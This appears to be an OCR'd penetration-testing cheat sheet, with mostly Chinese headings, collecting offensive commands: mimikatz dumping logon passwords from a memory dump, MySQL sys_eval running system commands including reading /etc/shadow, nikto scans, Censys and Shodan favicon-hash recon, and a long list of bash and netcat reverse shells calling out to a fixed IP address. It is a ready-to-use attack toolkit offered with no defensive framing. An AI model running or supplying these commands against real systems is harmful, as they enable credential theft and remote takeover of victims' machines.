 环境变量
shell c:\windows\system32\setx PATH "%path%;C:\WINDOWS\System32\"

procdump+mimikatz
mimikatz "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit

mysql命令行执行sql语句
mysql -uroot -pxxx mysql -e "select sys_eval('whoami');" 
123=system("mysql -uroot -pHfhtXd mysql -e \"select sys_eval('cat /etc/shadow');\" ");

cat /proc/bus/input/devices

/etc/profile 每个用户登录执行一次
~/.bash_profile 当前用户登录执行一次
/etc/bash.bashrc 每个用户打开shell就执行
~/.bashrc 当前用户打开shell就执行
~/.bash_logout 当前用户退出登录时执行

nikto -h http://www.target.com 
nikto -h www.target.com -p 443 -ssl -useproxy 127.0.0.1:1080

SSL证书查真实ip
https://censys.io/certificates?q=www.chasers.fun
https://censys.io/ipv4?q=42ee935ccab9f345e81c78c6d6b9124b8ef7b6356a1c2317ca0e56b4179c7ebb

shodan搜索favicon:
搜索ip
查看原始数据
查看data.0.http.favicon.hash的值
搜索http.favicon.hash:哈希值
data.0.http.favicon.data位icon的base64编码

import mmh3
import requests
response = requests.get('https://www.baidu.com/favicon.ico')
favicon = response.content.encode('base64')
hash = mmh3.hash(favicon)
print hash
搜索http.favicon.hash:哈希值

reverse shell
Bash TCP:
Victim:
bash -i >& /dev/tcp/123.59.170.204/443 0>&1
/bin/bash -i > /dev/tcp/123.59.170.204/443 0<& 2>&1
exec 5<>/dev/tcp/123.59.170.204/443;cat <&5 | while read line; do $line 2>&5 >&5; done
exec /bin/sh 0</dev/tcp/123.59.170.204/443 1>&0 2>&0
0<&196;exec 196<>/dev/tcp/123.59.170.204/443; sh <&196 >&196 2>&196
Bash UDP:
sh -i >& /dev/udp/123.59.170.204/443 0>&1
Listener:
nc -u -lvp 443

Netcat:
nc -e /bin/sh 123.59.170.204 443
------------------------
nc -e /bin/bash 123.59.170.204 443
------------------------
nc -c bash 123.59.170.204 443
------------------------
mknod backpipe p && nc 123.59.170.204 443 0<backpipe | /bin/bash 1>backpipe 
------------------------
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 123.59.170.204 443 >/tmp/f
------------------------
rm -f /tmp/p; mknod /tmp/p p && nc 123.59.170.204 443 0/tmp/p 2>&1
------------------------
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 123.59.170.204 443 > f